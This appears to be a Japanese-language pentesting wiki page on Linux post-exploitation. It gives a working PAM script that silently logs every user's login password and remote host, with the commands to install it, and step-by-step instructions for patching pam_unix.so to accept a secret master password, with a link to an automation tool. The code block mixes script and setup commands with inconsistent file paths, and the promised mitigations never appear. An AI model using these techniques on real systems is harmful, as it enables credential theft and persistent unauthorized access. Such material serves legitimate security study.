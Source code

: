 # Linux Post-Exploitation

{{#include ../../banners/hacktricks-training.md}}

## PAMを使用したログインパスワードのスニッフィング

各ユーザーがログインに使用するパスワードを記録するためにPAMモジュールを設定しましょう。PAMが何か分からない場合は、以下を確認してください：

{{#ref}}
pam-pluggable-authentication-modules.md
{{#endref}}

**詳細については[元の投稿](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)を確認してください**。これは要約です：

**技術概要：**
プラガブル認証モジュール（PAM）は、Unixベースのシステムでの認証管理に柔軟性を提供します。ログインプロセスをカスタマイズすることでセキュリティを強化できますが、誤用されるとリスクも伴います。この要約では、PAMを使用してログイン資格情報をキャプチャする技術と、その緩和戦略を概説します。

**資格情報のキャプチャ：**

- `toomanysecrets.sh`という名前のbashスクリプトが作成され、ログイン試行を記録し、日付、ユーザー名（`$PAM_USER`）、パスワード（stdin経由）、およびリモートホストIP（`$PAM_RHOST`）を`/var/log/toomanysecrets.log`にキャプチャします。
- スクリプトは実行可能にされ、`pam_exec.so`モジュールを使用してPAM設定（`common-auth`）に統合され、静かに実行し、認証トークンをスクリプトに公開するオプションが付与されます。
- このアプローチは、侵害されたLinuxホストが資格情報を密かに記録するためにどのように悪用されるかを示しています。
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### PAMのバックドア作成

**詳細については[元の投稿](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)を確認してください**。これは要約です：

Pluggable Authentication Module (PAM)は、Linuxでユーザー認証に使用されるシステムです。これは、**ユーザー名**、**パスワード**、および**サービス**の3つの主要な概念に基づいて動作します。各サービスの設定ファイルは`/etc/pam.d/`ディレクトリにあり、共有ライブラリが認証を処理します。

**目的**：特定のパスワードでの認証を許可するようにPAMを変更し、実際のユーザーパスワードをバイパスします。これは、パスワード検証のためにほぼすべてのサービスによって含まれる`common-auth`ファイルで使用される`pam_unix.so`共有ライブラリに特に焦点を当てています。

### `pam_unix.so`の変更手順：

1. **`common-auth`ファイル内の認証ディレクティブを特定**：
- ユーザーのパスワードを確認する責任がある行は`pam_unix.so`を呼び出します。
2. **ソースコードを変更**：
- `pam_unix_auth.c`ソースファイルに、事前定義されたパスワードが使用された場合にアクセスを許可する条件文を追加し、そうでない場合は通常の認証プロセスを続行します。
3. **修正された`pam_unix.so`ライブラリを適切なディレクトリに再コンパイルして置き換えます**。
4. **テスト**：
- 事前定義されたパスワードでさまざまなサービス（ログイン、ssh、sudo、su、スクリーンセーバー）にアクセスが許可され、通常の認証プロセスには影響がありません。

> [!TIP]
> このプロセスを[https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)で自動化できます。

{{#include ../../banners/hacktricks-training.md}}
